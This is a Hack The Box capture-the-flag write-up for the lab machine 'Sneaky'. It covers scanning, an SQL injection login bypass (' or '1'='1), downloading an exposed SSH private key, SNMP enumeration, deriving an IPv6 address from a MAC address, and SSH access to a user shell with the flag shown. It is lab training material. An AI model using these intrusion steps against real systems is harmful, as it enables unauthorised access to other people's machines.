 # Sneaky
#### 10.10.10.20

```{r, engine='bash', count_lines}
nmap 10.10.10.20

PORT   STATE SERVICE
80/tcp open  http
```

The website shows that its under construction

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Under-Construction.PNG">


Dirbuster Initiate!

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Dirbuster.PNG"></kbd>

Well ofcourse, its under **dev**elopment


We are greeted by a Login screen

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Login.PNG"></kdb>


Whats the autoresponse when we see a poorly made login page ?

Yes **' or '1' = '1**

Simple sql injection. Seems legit

After the login we get sjuicy stuff
<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Post-Login.PNG"></kdb>

Lets make a note of the info:

- name: admin
- name: thrasvilous
- RSA Private key
- We are No-one

Lets wget the RSA key

And because its a Private SSH key, we change its perms

```
root@kali:~/Hackthebox/Sneaky# wget http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
--2017-11-07 17:24:48--  http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
Connecting to 10.10.10.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘sshkeyforadministratordifficulttimes’

sshkeyforadministratordifficulttimes  100%[=======================================================================>]   1.64K  --.-KB/s    in 0s      

2017-11-07 17:24:48 (120 MB/s) - ‘sshkeyforadministratordifficulttimes’ saved [1675/1675]

root@kali:~/Hackthebox/Sneaky# mv sshkeyforadministratordifficulttimes adminssh.key

root@kali:~/Hackthebox/Sneaky# chmod 600 adminssh.key 

```

**BUT!!!**

We dont have a port 22 (ssh) open on this box. Maybe it was setup on a different port.

Lets nmap all the ports 

After spending millions of years completing the nmap we see that there is no other port open.

![Alt test](https://media.giphy.com/media/l46CbAuxFk2Cz0s2A/giphy.gif)


Hold up! we found something else though

Port 161

Investigate Further

We get shit tons of info

```
nmap -sS -sU -p 161 -T4 -A 10.10.10.20

161/udp open   snmp    SNMPv1 server; net-snmp SNMPv3 server (public)

snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Status: up
|     Traffic stats: 129.30 Kb sent, 129.30 Kb received
|   eth0
|     IP address: 10.10.10.20  Netmask: 255.255.255.0
|     MAC address: 00:50:56:aa:35:f3 (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Status: up
|_    Traffic stats: 45.08 Mb sent, 41.13 Mb received
| snmp-netstat: 
|   TCP  127.0.0.1:3306       0.0.0.0:0
|_  UDP  0.0.0.0:161          *:*


```
We are SURE that there is a ssh port open, but we cant find it here...

Maybe its ipv6

Let me check what ipv6 we get for the openvpn

```
inet 10.10.14.52  netmask 255.255.254.0  destination 10.10.14.52
inet6 dead:beef:2::1032  prefixlen 64  scopeid 0x0<global>
```

A wise gentelman from stack overflow helped us 
![Alt test](https://stackoverflow.com/questions/27693120/convert-from-mac-to-ipv6/27693666#27693666)

A little bit or "Trying Harder" and knowing that our local prefix should be dead:beef we get something like this

```
dead:beef::250:56ff:feaa:35f3 (HAVE TO CHECK THIS)
```

lets try and connect to it via ssh and out key

```
root@kali:~/Hackthebox/Sneaky# ssh -6 dead:beef::250:56ff:feaa:35f3
The authenticity of host 'dead:beef::250:56ff:feaa:35f3 (dead:beef::250:56ff:feaa:35f3)' can't be established.
ECDSA key fingerprint is SHA256:KCwXgk+ryPhJU+UhxyHAO16VCRFrty3aLPWPSkq/E2o.
Are you sure you want to continue connecting (yes/no)? 
```

Say Whaaaaat!!!!

Time to get rocking

We have the key, the username is thrasivoulos , lets connect

```
root@kali:~/Hackthebox/Sneaky# ssh -6 -i adminssh.key thrasivoulos@dead:beef::250:56ff:feaa:35f3
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Nov  7 14:33:29 EET 2017

  System load:  0.0               Processes:           181
  Usage of /:   9.8% of 18.58GB   Users logged in:     1
  Memory usage: 23%               IP address for eth0: 10.10.10.20
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Tue Nov  7 14:33:30 2017 from dead:beef:2::1032
thrasivoulos@Sneaky:~$ 

```

**user.txt**
```
thrasivoulos@Sneaky:~$ cat user.txt
9fe14f76222db23a770f20136751bdab
```

_Mission: Root_



**_shellz_**
